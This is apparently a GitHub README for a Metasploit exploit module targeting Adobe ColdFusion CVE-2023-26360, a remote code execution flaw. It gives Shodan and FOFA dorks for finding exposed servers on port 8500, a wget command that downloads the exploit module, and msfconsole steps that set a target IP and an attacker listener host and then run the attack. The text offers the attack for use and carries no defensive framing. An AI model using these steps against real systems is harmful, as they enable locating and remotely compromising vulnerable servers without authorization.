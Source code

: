 # CVE-2023-26360
![](https://img.shields.io/static/v1?label=Product&message=Adobe%20Cold%20Fusion&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=2018%20Update%2015%20(and%20earlier)%20and%202021%20Update%205%20(and%20earlier)&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)
  

- Shodan dork:
```
CFIDE port:"8500"
```
- FOFA dork:
```
body="CFIDE"&&port="8500"
```
  
## Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Adobe_Cold_Fusion_CVE-2023-26360/adobe_coldfusion_rce_cve_2023_26360.rb
```
```
cp adobe_coldfusion_rce_cve_2023_26360.rb /usr/share/metasploit-framework/modules/exploits/multi/http/
```
## Usage
```
msfdb reinit; msfconsole -q
```
```
use exploit/multi/http/adobe_coldfusion_rce_cve_2023_26360.rb
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```

